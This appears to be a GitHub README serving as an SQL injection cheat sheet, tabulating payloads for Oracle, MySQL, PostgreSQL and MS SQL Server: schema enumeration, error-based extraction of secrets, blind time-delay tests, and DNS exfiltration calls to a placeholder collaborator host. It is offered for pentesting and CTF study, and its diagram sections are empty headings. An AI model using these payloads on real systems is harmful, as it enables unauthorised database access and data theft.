



<!----->

# **SQL Injection Cheat Sheet**

A comprehensive, developer-friendly SQL Injection (SQLi) cheat sheet with syntax references for Oracle, MySQL, PostgreSQL, and Microsoft SQL Server. Includes string operations, comments, enumeration queries, timing attacks, DNS exfiltration, stacked queries, and more.

## **Table of Contents**

* [String Concatenation](#string-concatenation)
* [Substring Extraction](#substring)
* [Commenting Techniques](#comments)
* [Database Version Extraction](#database-version)
* [Enumerating Database Contents](#database-contents)
* [Conditional Errors](#conditional-errors)
* [Data Extraction via Errors](#extracting-data-via-visible-error-messages)
* [Batched Queries](#batched-queries)
* [Time Delay Attacks](#time-delays)
* [Conditional Time Delays](#conditional-time-delays)
* [DNS Lookup Attacks](#dns-lookup)
* [DNS Exfiltration](#dns-lookup-with-data-exfiltration)
* [Architecture Overview](#architecture-diagram)
* [Attack Flow Diagram](#attack-flow-diagram)

# **String Concatenation**

| DBMS           | Syntax                                                    |
| -------------- | --------------------------------------------------------- |
| **Oracle**     | `'foo' \|\| 'bar'`                                        |
| **Microsoft**  | `'foo' + 'bar'`                                           |
| **PostgreSQL** | `'foo' \|\| 'bar'`                                        |
| **MySQL**      | `'foo' 'bar'` *(space between)*  `CONCAT('foo','bar')` |

# **Substring**

| DBMS       | Syntax (returns `"ba"` from `"foobar"`) |
| ---------- | --------------------------------------- |
| Oracle     | `SUBSTR('foobar', 4, 2)`                |
| Microsoft  | `SUBSTRING('foobar', 4, 2)`             |
| PostgreSQL | `SUBSTRING('foobar', 4, 2)`             |
| MySQL      | `SUBSTRING('foobar', 4, 2)`             |

# **Comments**

| DBMS       | Comment Syntax                                                       |
| ---------- | -------------------------------------------------------------------- |
| Oracle     | `--comment`                                                          |
| Microsoft  | `--comment`   `/* comment */`                                     |
| PostgreSQL | `--comment`   `/* comment */`                                     |
| MySQL      | `#comment`   `-- comment` *(space required)*   `/* comment */` |

---

# **Database Version**

| DBMS       | Query                             |
| ---------- | --------------------------------- |
| Oracle     | `SELECT banner FROM v$version;`   |
| Oracle     | `SELECT version FROM v$instance;` |
| Microsoft  | `SELECT @@version;`               |
| PostgreSQL | `SELECT version();`               |
| MySQL      | `SELECT @@version;`               |

# **Database Contents**

| DBMS       | List Tables                                | List Columns                                                         |
| ---------- | ------------------------------------------ | -------------------------------------------------------------------- |
| Oracle     | `SELECT * FROM all_tables;`                | `SELECT * FROM all_tab_columns WHERE table_name='TABLE';`            |
| Microsoft  | `SELECT * FROM information_schema.tables;` | `SELECT * FROM information_schema.columns WHERE table_name='TABLE';` |
| PostgreSQL | Same as MS SQL                             | Same as MS SQL                                                       |
| MySQL      | Same as MS SQL                             | Same as MS SQL                                                       |

# **Conditional Errors**

| DBMS       | Payload                                                                   |
| ---------- | ------------------------------------------------------------------------- |
| Oracle     | `SELECT CASE WHEN (COND) THEN TO_CHAR(1/0) END FROM dual;`                |
| Microsoft  | `SELECT CASE WHEN (COND) THEN 1/0 END;`                                   |
| PostgreSQL | `1 = (SELECT CASE WHEN (COND) THEN 1/(SELECT 0) END)`                     |
| MySQL      | `SELECT IF(COND,(SELECT table_name FROM information_schema.tables),'a');` |

# **Extracting Data via Error Messages**

| DBMS       | Payload                                                                        | Example Error Leak               |
| ---------- | ------------------------------------------------------------------------------ | -------------------------------- |
| Microsoft  | `SELECT 'foo' WHERE 1=(SELECT 'secret');`                                      | *Conversion failed... ‘secret’*  |
| PostgreSQL | `SELECT CAST((SELECT password FROM users LIMIT 1) AS int);`                    | *invalid input syntax… 'secret'* |
| MySQL      | `SELECT 'foo' WHERE 1=1 AND EXTRACTVALUE(1, CONCAT(0x5c, (SELECT 'secret')));` | *XPATH syntax error: '\secret'*  |

# **Batched Queries**

| DBMS       | Example                                |
| ---------- | -------------------------------------- |
| Oracle     |  Not supported                        |
| Microsoft  | `query1; query2`                       |
| PostgreSQL | `query1; query2`                       |
| MySQL      | `query1; query2` *(rarely injectable)* |

# **Time Delays**

| DBMS       | Syntax                              |
| ---------- | ----------------------------------- |
| Oracle     | `dbms_pipe.receive_message('a',10)` |
| Microsoft  | `WAITFOR DELAY '0:0:10'`            |
| PostgreSQL | `SELECT pg_sleep(10)`               |
| MySQL      | `SELECT SLEEP(10)`                  |

# **Conditional Time Delays**

| DBMS       | Payload                                                                         |
| ---------- | ------------------------------------------------------------------------------- |
| Oracle     | `SELECT CASE WHEN (COND) THEN dbms_pipe.receive_message('a',10) END FROM dual;` |
| Microsoft  | `IF (COND) WAITFOR DELAY '0:0:10'`                                              |
| PostgreSQL | `SELECT CASE WHEN (COND) THEN pg_sleep(10)`                                     |
| MySQL      | `SELECT IF(COND, SLEEP(10), 'a');`                                              |

# **DNS Lookup**

| DBMS             | Payload                                                                      |
| ---------------- | ---------------------------------------------------------------------------- |
| Oracle           | `EXTRACTVALUE(xmltype('<!DOCTYPE ... SYSTEM "http://COLLABORATOR/">'),'/l')` |
| Oracle (patched) | `SELECT UTL_INADDR.get_host_address('COLLABORATOR');`                        |
| MS SQL           | `exec master..xp_dirtree '//COLLABORATOR/a';`                                |
| PostgreSQL       | `copy (SELECT '') to program 'nslookup COLLABORATOR';`                       |
| MySQL            | `LOAD_FILE('\\\\COLLABORATOR\\a');`                                          |

# **DNS Exfiltration**

| DBMS       | Payload                                                   |   |                |   |             |
| ---------- | --------------------------------------------------------- | - | -------------- | - | ----------- |
| Oracle     | `... SYSTEM "http://'                                     |   | (SELECT QUERY) |   | '.COLLAB/"` |
| Microsoft  | `xp_dirtree "//'+(SELECT QUERY)+'.COLLAB/a"`              |   |                |   |             |
| PostgreSQL | Custom PL/pgSQL wrapper executing `nslookup QUERY.COLLAB` |   |                |   |             |
| MySQL      | `SELECT QUERY INTO OUTFILE '\\\\COLLAB\\a'`               |   |                |   |             |

# **Architecture Diagram (Mermaid)**

# **Attack Flow (UML Sequence)**

# **SQL Injection Payload Map**

A quick reference visual of all methods:

# **Summary**

This cheat sheet provides:

* Multi-DBMS SQLi payloads
* Enumeration techniques
* Error-based & blind injection patterns
* DNS-based OOB exfiltration
* Diagrams for understanding attack flow

Perfect for **pentesting, security research, CTFs, OSCP prep**, or building secure applications.

